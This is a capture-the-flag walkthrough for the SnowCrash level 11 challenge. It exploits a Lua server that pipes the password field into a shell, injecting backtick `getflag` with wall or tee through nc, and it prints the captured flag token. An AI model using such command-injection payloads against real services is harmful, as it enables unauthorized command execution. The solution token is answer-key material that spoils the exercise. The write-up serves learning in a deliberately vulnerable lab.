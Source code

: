 # Level11

We have a `lua` program. It's a server in port `5151` in which a password is waiting.  
So we can launch a client with `nc`.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: test
Erf nope..
```

`prog = io.popen("echo "..pass.." | sha1sum", "r")` In lua this line allow user to execute a `command`.  
An another specificity is the `..`. This token is used to concatenate 2 strings.  
So if our `pass` variable is set as `test` the command send in io.popen will be `echo test | sha1sum`.  

So we can use this operation to create a command with `getflag`.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag`                                                                               
Erf nope..
```

I think it's working but in the code no message with the output is send to the client. So we can try to use `wall` to send the output at all clients.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` | wall
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 2:00 ...                                                
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                                                                                       
Erf nope..
```

We can also use `tee` command to get the flag. This command read the stdout and write the content stdout AND file given.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` | tee /tmp/token
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

level11@SnowCrash:~$ su level12
Password: 
level12@SnowCrash:~$ id
uid=2012(level12) gid=2012(level12) groups=2012(level12),100(users)
```
